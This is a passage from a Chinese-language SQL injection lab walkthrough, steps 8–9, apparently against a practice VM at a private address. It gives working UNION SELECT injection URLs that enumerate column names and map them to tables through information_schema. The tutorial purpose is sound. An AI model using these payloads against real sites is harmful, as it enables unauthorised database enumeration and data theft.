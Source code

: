     8. 获取所有列名

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

        ![](img/columns.png)

        可看到所有列名（截图未完全展示）。

    9. 获取表名与列名的对应关系

        知道了所有表名和列名还不够，还需要知道哪些列属于哪些表。

        使用关键字CONCAT连接对应的表名和列名：

        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

        这里使用`:`作为表名与列名的分隔符。
